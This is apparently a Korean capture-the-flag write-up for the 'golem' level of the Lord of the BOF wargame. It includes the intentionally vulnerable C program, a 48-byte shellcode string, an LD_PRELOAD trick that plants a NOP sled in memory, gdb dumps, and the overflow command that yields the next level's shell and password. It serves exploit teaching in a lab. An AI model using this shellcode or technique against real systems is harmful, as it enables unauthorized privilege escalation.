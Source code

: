 ```yaml
---
title: "[LOB]Level11. golem"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Stack Destroyer](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

-----

### 0x01. Analysis

- RET의 시작주소는 `\xbf`
- buffer 배열 초기화
- **RET이후 스택 영역 모두 초기화**

앞문제에서 스택 최상단에 초기화 되지 않는 환경변수 영역까지 초기화 시키는 것을 확인할 수 있다.

따라서, **매개변수, 버퍼, 환경변수 모두 사용 불가**하다.

이제 프로그램 실행에 있어서 큰그림을 살펴봐야한다. 프로그램이 동작할 때 메모리에 실행한 프로그램만 로드되는 것이 아니다. 프로그램 내부에서 사용하는 함수들도 필요하므로 전부 메모리에 로드되게 된다. 일반적으로 내부 함수들은 외부 라이브러리에 존재하기 때문에 다른 메모리 영역에 존재하게된다.

```
[skeleton@localhost skeleton]$ ldd golem
        libc.so.6 => /lib/libc.so.6 (0x40018000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

프로그램 내부의 printf함수, strcpy, memset함수들이 모두 위 라이브러리에 속하여있고, 해당 주소에 위치되어 메모리에 로드된다.

여기서 만약 해당 라이브러리에 등록되지 않는 다른 임의의 함수를 추가해서 사용할 때는 어떻게 될까?

해당 함수를 메모리상에 로드해야 실행을 할 수 있으므로 프로그램 동작 시 사전에 메모리에 로드하게 된다.

이러한 설정을 할 수 있는 환경변수가 리눅스에 존재한다. `LD_PRELOAD` 이다.

> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 

이때 `-fPIC` 와 `-shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

```
[skeleton@localhost skeleton]$ mkdir tmp
[skeleton@localhost skeleton]$ cd tmp
[skeleton@localhost /tmp]$ vi tmp.c
```

```c
//tmp.c
int main(){
        return 0;
}
```

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

>-fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
>-shared : 공유 라이브러리를 만드는 옵션

```
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[skeleton@localhost /tmp]$ ls
tmp.c
?????????????????????????????????????????????????????????????????????????????????????????????????????^12?l????u楕
?凹2핽i00tii0cjo??T????
```



그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

```
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



이제 gdb로 LD_PRELOAD 환경변수가 메모리 어디에 로드되는지 확인해보자.

```
[skeleton@localhost tmp]$ cd ../
[skeleton@localhost skeleton]$ gdb -q ./aolem
(gdb) b*main+166
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/skeleton/./aolem `python -c 'print "\xbf"*48'`
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 1, 0x8048516 in main ()
(gdb) x/100x $esp-3000
==================================(생략)===================================
0xbffff754:     0x6d6f682f      0x6b732f65      0x74656c65      0x742f6e6f
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c4:     0x90909090      0xeb909090      0xc9315e11      0x6c8032b1
0xbffff7d4:     0x8001ff0e      0xf67501e9      0xeae805eb      0x32ffffff
0xbffff7e4:     0x306951c1      0x69697430      0x6f6a6330      0x5451e48a
0xbffff7f4:     0xb19ae28a      0x0081ce0c      0x40013868      0x4000220c
```

LD_PRELOAD는 golem의 메모리 영역보다 낮은 주소에 있기 때문에 초기화 되지 않은것을 알수 있다.

주소는 `0xbffff774` 근처로 잡으면 될 것같다.

-----

### 0x02. Exploit

```
[skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x74\xf7\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱t?
풺ash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
bash$ my-pass
euid = 511
cup of coffee
bash$
```

-----

### 0x03. 정리

앞 문제에서 초기화 되지 않는 환경변수 영역이 있어 이를 이용한 공격이 가능했지만, 이 또한 egghunter가 아닌 다른 방법으로 초기화 할 수 있음을 확인할 수 있었다.

그리고 `LD_PRELOAD`에 대해서 프로그램 실행시 사전에 메모리에 또다른 영역에 로드되는 것을 확인할 수 있었다.



실제 buffer배열의 주소와 LD_PRELOAD에 주소를 살펴보면,

```
Breakpoint 3, 0x80484d5 in main ()
(gdb) x/32x $ebp-40
0xbffffbc0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbd0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbe0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbf0:     0x00000000      0xbffffc34      0xbffffc40      0x40013868
```

```sh
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
```

buffer배열의 시작주소는 `0xbffffbc0` 이고 LD_PRELOAD의 시작주소는 `0xbffff764` 인 것을 확인할 수 있다.

memset을통해 `buffer+48`부터 `0xbfffffff` 까지 초기화 하기 때문에 LD_PRELOAD 영역은 초기화 되지 않는 것이다.

